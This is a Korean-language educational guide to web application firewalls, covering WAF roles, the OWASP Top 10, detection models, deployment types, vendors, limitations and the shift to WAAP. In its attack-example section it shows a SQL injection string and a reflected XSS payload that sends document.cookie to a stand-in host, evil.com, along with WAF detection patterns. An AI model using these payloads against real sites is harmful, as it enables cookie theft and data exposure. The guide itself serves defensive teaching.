# 웹방화벽 (WAF)

## 1. 웹방화벽(WAF)이란?

### 정의

* **WAF (Web Application Firewall)**
* 일반적인 방화벽(Firewall)과 달리 **웹 애플리케이션(HTTP/HTTPS)** 으로 향하는 트래픽을 감시하고 필터링하는 보안 시스템
* OSI 7계층 중 **Application Layer (Layer 7)** 에서 동작
* HTTP 요청의 **Header, URL, Parameter, Body** 등 모든 구성 요소를 심층 분석

### 네트워크 내 WAF 위치



### 핵심 역할

1. **해킹 방어:** SQL Injection, XSS, 파일 업로드 공격 등 웹 공격 차단
2. **정보 유출 방지:** 주민등록번호, 카드번호 등 개인정보 유출 탐지 및 차단
3. **접근 제어:** 부정 로그인, 비정상 트래픽(Bot), 무차별 대입 공격 제어
4. **규정 준수:** PCI DSS, 개인정보보호법 등 컴플라이언스 요건 충족
   > **PCI DSS**(Payment Card Industry Data Security Standard): 카드 결제 정보를 안전하게 보호하기 위한 글로벌 보안 표준
5. **가용성 보호:** L7 DDoS 등 애플리케이션 계층 공격으로부터 서비스 보호

> **공항 보안에 비유하면?**

| 구분 | 공항 비유 | 실제 동작 |
| :--- | :--- | :--- |
| **방화벽** | 탑승권 확인 요원 — "이 게이트(Port)로 갈 수 있는 표(IP)를 가지고 있나요?" 만 확인. 가방은 열어보지 않음 | IP/Port만 검사하고 통과시킴 |
| **IPS** | 수배자 명단 대조 — 지나가는 사람의 얼굴을 수배 사진(시그니처)과 비교. 알려진 범죄자만 잡을 수 있음 | 알려진 공격 패턴과 대조하여 차단 |
| **WAF** | 보안 검색대 — 가방을 X-ray로 투시하고, 내용물(페이로드)을 하나하나 검사. 위험물(악성 코드)을 직접 찾아냄 | HTTP 요청의 URL, 파라미터, Body를 심층 분석하여 차단 |

---

## 2. 왜 WAF가 필요한가? (도입 배경)

### 웹 공격 현황



* 전체 보안 침해 사고의 **약 43%가 웹 애플리케이션을 대상**으로 발생 (Verizon DBIR)
  > **Verizon DBIR**(Data Breach Investigations Report): 보안 업계의 '연간 성적표'라고 불릴 만큼 권위 있는 사이버 보안 사고 분석 보고서
* 웹 기반 비즈니스 확대에 따라 공격 표면(Attack Surface)이 지속 증가
* 클라우드 전환, API 경제 확대로 보호 대상이 복잡해지는 추세

### 기존 방화벽(Network Firewall)의 한계

* **IP/Port 기반 제어:** "누가(IP) 어디로(Port) 가는가"만 확인
* **Payload 분석 불가:** 패킷 안에 악성 코드가 심어져 있는지 확인 불가
* **웹 트래픽 허용:** 웹 서비스 포트(80, 443)는 항상 열려 있어야 하므로 무방비
* **SSL/TLS 미지원:** 암호화된 트래픽 내부를 볼 수 없어 HTTPS 공격에 무력

### 방화벽만 있을 때의 공격 시나리오



### WAF가 있을 때의 방어 시나리오



### 웹 공격의 위험성

| 위험 유형 | 상세 내용 | 피해 규모 (예시) |
| :--- | :--- | :--- |
| **데이터 유출** | DB 해킹을 통한 고객 정보 탈취 | 수십만~수억 건 개인정보 유출 |
| **금전적 손실** | 과징금, 소송 비용, 복구 비용 | 수십억 원 이상 |
| **서비스 마비** | 웹 서버 리소스 고갈 (DDoS) | 시간당 수억 원 매출 손실 |
| **신뢰도 하락** | 홈페이지 변조, 악성코드 유포지로 악용 | 기업 이미지 훼손, 고객 이탈 |
| **법적 책임** | 개인정보보호법, 정보통신망법 위반 | 형사 처벌, 영업 정지 |

---

## 3. 주요 방어 대상 (OWASP Top 10 - 2021)

**OWASP**(Open Worldwide Application Security Project)는 소프트웨어 보안을 개선하기 위해 활동하는 글로벌 비영리 재단으로, **가장 심각한 웹 보안 위협 10가지**를 선정하여 발표합니다.

### 주요 항목 상세

| 순위 | 항목 | 설명 |
| :---: | :--- | :--- |
| **A01** | Broken Access Control | 권한 없는 리소스에 대한 비인가 접근 |
| **A02** | Cryptographic Failures | 민감 데이터의 암호화 미흡 |
| **A03** | Injection (SQLi, XSS 등) | SQL/OS 쿼리에 악성 코드 삽입 |
| **A04** | Insecure Design | 설계 단계의 보안 결함 |
| **A05** | Security Misconfiguration | 불필요한 기능 활성화, 기본 설정 방치 |
| **A06** | Vulnerable Components | 알려진 취약점이 있는 라이브러리 사용 |
| **A07** | Auth & Identification Failures | 인증 우회, 무차별 대입 공격 |
| **A08** | Data Integrity Failures | 신뢰할 수 없는 직렬화 |
| **A09** | Logging & Monitoring Failures | 보안 이벤트 로깅 부재 |
| **A10** | SSRF | 서버가 의도치 않은 내부 요청을 수행 |

### 대표 공격 예시: SQL Injection

```text
# 정상 요청
GET /users?id=123

# 공격 요청 (SQL Injection)
GET /users?id=123' OR '1'='1' --

# 서버에서 실행되는 쿼리
정상: SELECT * FROM users WHERE id = '123'
공격: SELECT * FROM users WHERE id = '123' OR '1'='1' --'
      → 조건이 항상 참이 되어 전체 사용자 정보 유출
```

### 대표 공격 예시: XSS (Cross-Site Scripting)

```text
# Reflected XSS 공격
GET /search?q=<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>

# Stored XSS 공격 (게시판 등)
POST /comment
Body: content=

# WAF 탐지 포인트
→ <script>, onerror=, javascript:, document.cookie 등의 패턴을 탐지하여 차단
```

---

## 4. WAF vs IPS vs Firewall 비교

| 구분 | 방화벽 (Firewall) | IPS (침입방지시스템) | **WAF (웹방화벽)** |
| :--- | :--- | :--- | :--- |
| **대응 계층** | L3 / L4 (Network) | L3 ~ L7 | **L7 (Application)** |
| **판단 기준** | IP, Port | 패턴(Signature) | **URL, Parameter, Cookie, Body** |
| **주요 목적** | 네트워크 접근 제어 | 알려진 공격 탐지/차단 | **웹 해킹 방어, 정보 유출 방지** |
| **HTTPS 검사** | 불가능 | 제한적 | **가능 (SSL 복호화 분석)** |
| **오탐률** | 낮음 | 중간 | 초기 높으나 튜닝으로 개선 |
| **웹 공격 대응** | 불가 | 부분적 | **전문적 대응** |

> **요약:** 보안 장비는 역할이 다르므로 **대체 관계가 아닌 상호 보완 관계**입니다. 웹 공격(L7)을 효과적으로 막으려면 WAF가 필수입니다.

---

## 5. WAF 동작 방식

### 요청 처리 흐름



### 탐지 방식 비교

| 방식 | 설명 | 장점 | 단점 |
| :--- | :--- | :--- | :--- |
| **Blacklist (네거티브 모델)** | 알려진 공격 패턴(시그니처)만 차단 | 관리 용이, 오탐 낮음 | Zero-day 공격 탐지 불가 |
| **Whitelist (포지티브 모델)** | 허용된 안전한 접근만 통과, 나머지 차단 | 알려지지 않은 공격도 방어 가능 | 초기 설정 부담 큼 |
| **Hybrid (혼합)** | Blacklist + Whitelist 조합 | 균형 잡힌 보안 수준 | 복합 운영 관리 필요 |
| **AI/ML 기반 (행위 분석)** | 정상 트래픽 학습 후 이상 행위 탐지 | Zero-day, 변종 공격 탐지 | 학습 기간 필요, 오탐 가능성 |

---

## 6. 배포 형태



| 구분 | 하드웨어형 | 소프트웨어형 | 클라우드형 |
| :--- | :--- | :--- | :--- |
| **설치 위치** | 네트워크 인라인 (전용 장비) | 웹 서버 내부 (모듈) | 클라우드 (DNS 변경) |
| **초기 비용** | 높음 (수천만~수억 원) | 중간 | 낮음 (구독형) |
| **운영 비용** | 전문 인력 필요 | 서버 리소스 소모 | 트래픽 종량제 |
| **성능** | 대용량 트래픽 처리에 유리 | 서버 부하 영향 가능 | CDN 연계 시 우수 |
| **확장성** | 장비 추가 구매 필요 | 서버 단위 설치 | 자동 확장 (탄력적) |
| **유지보수** | 직접 관리 | 직접 관리 | 벤더가 관리 |
| **대표 사례** | WAPPLES, Imperva | ModSecurity, NAXSI | AWS WAF, Cloudflare |
| **적합 환경** | 대기업, 금융기관, 공공기관 | 소규모 환경, 단일 서버 | 스타트업, 클라우드 네이티브 |

---

## 7. 주요 WAF 제품/서비스

### 국내

| 제품명 | 제조사 | 특징 |
| :--- | :--- | :--- |
| **WAPPLES** | 펜타시큐리티 | 국내 시장점유율 1위, 지능형 논리 분석 엔진(COCEP) |
| **WEBFRONT-K** | 파이오링크 | 고성능 하드웨어 WAF, L7 DDoS 방어 |
| **ShadowWall** | 이글루코퍼레이션 | 국정원 CC 인증, 행위 기반 탐지 |
| **Cloudbric** | 펜타시큐리티 | 클라우드 기반 WAF, 글로벌 서비스 |

### 글로벌

| 제품/서비스명 | 제조사 | 특징 |
| :--- | :--- | :--- |
| **AWS WAF** | Amazon | AWS 네이티브, Managed Rules, 서버리스 연동 |
| **Cloudflare WAF** | Cloudflare | CDN 통합, DDoS 방어, 무료 플랜 제공 |
| **Imperva WAF** | Imperva (Thales) | 엔터프라이즈급, 온프레미스/클라우드 |
| **Akamai App & API Protector** | Akamai | 글로벌 CDN 기반, API 보안 통합 |
| **Azure WAF** | Microsoft | Azure 네이티브, Application Gateway 통합 |
| **ModSecurity** | OWASP/Trustwave | 오픈소스 WAF, Apache/Nginx 모듈 |

---

## 8. WAF 도입 시 고려사항

| 항목 | 설명 |
| :--- | :--- |
| **성능 영향** | WAF 도입 시 응답 지연(Latency) 발생 가능. 트래픽 규모에 맞는 처리 용량 확보 필요 |
| **오탐(False Positive) 관리** | 정상 요청을 공격으로 오인하여 차단하는 경우 발생. 충분한 튜닝 기간 필요 |
| **미탐(False Negative) 최소화** | 실제 공격을 탐지하지 못하는 경우. 최신 룰 업데이트 및 AI 기반 탐지 활용 |
| **SSL/TLS 처리** | HTTPS 트래픽 복호화에 따른 성능 부하와 인증서 관리 고려 |
| **운영 인력** | 로그 분석, 정책 튜닝, 장애 대응 등을 위한 보안 전문 인력 확보 |
| **이중화/가용성** | WAF 장애 시 서비스 중단을 방지하기 위한 HA(고가용성) 구성 |

---

## 9. WAF의 한계와 보완

### WAF가 막을 수 없는 것들



| 한계점 | 설명 | 보완 방법 |
| :--- | :--- | :--- |
| **비즈니스 로직 공격** | "정상적인" 요청으로 비즈니스 규칙을 악용 (예: 가격 변조) | 애플리케이션 레벨 검증 |
| **제로데이 공격** | 아직 알려지지 않은 새로운 공격 패턴 | AI/ML 기반 이상 탐지 |
| **내부자 위협** | WAF는 외부 진입점만 감시 | 내부 접근 제어(IAM), DLP |
| **설계 결함** | 애플리케이션 자체의 구조적 보안 문제 | 시큐어 코딩, 보안 설계 검토 |

> WAF는 다계층 보안 체계의 한 요소로, **다른 보안 솔루션(IPS, SIEM, 취약점 스캐너 등)과 함께** 운영해야 합니다.

---

## 10. 최신 트렌드: WAAP로의 진화

기존 WAF는 이제 **WAAP (Web Application and API Protection)** 로 진화하고 있습니다.

### 진화 과정





### WAAP의 4대 핵심 요소

| 요소 | 설명 | 대응 위협 |
| :--- | :--- | :--- |
| **WAF** | 전통적인 웹 공격 방어 (SQLi, XSS 등) | OWASP Top 10 |
| **API Security** | API 엔드포인트 보호, 스키마 검증 | API 남용, 데이터 유출 |
| **Bot Management** | 악성 봇 식별 및 차단, 정상 봇 허용 | 스크래핑, 계정 탈취, 매크로 |
| **DDoS Protection** | L7 계층 DDoS 공격 방어 | HTTP Flood, Slowloris |

### 공격 방어 시나리오: API Security

모바일 쇼핑앱의 API를 악용하여 다른 사용자의 주문 정보를 탈취하는 시나리오입니다.



> **기존 WAF만으로는?** URL과 파라미터 형식이 정상이므로 SQL Injection도 XSS도 아닙니다. 기존 WAF는 통과시킬 수밖에 없지만, **API Security**는 인증 컨텍스트와 호출 패턴까지 분석하여 차단합니다.

### 공격 방어 시나리오: Bot Management

콘서트 티켓 예매 사이트에서 매크로 봇이 좌석을 독점하는 시나리오입니다.



> **기존 WAF만으로는?** 봇의 요청은 형식상 완벽한 정상 HTTP 요청입니다. 공격 패턴이 없으므로 기존 WAF는 차단할 근거가 없지만, **Bot Management**는 요청 속도, 브라우저 핑거프린트, 사용자 행위 패턴을 분석하여 봇과 사람을 구별합니다.

### 왜 WAAP가 필요한가?



* 현대 웹 트래픽의 **50% 이상이 API** 를 통해 발생 (모바일 앱, SPA, 마이크로서비스)
* 전체 인터넷 트래픽의 **약 30%가 봇** 이며, 이 중 상당수가 악성
* 기존 WAF만으로는 API 공격과 정교한 봇을 효과적으로 방어하기 어려움

---
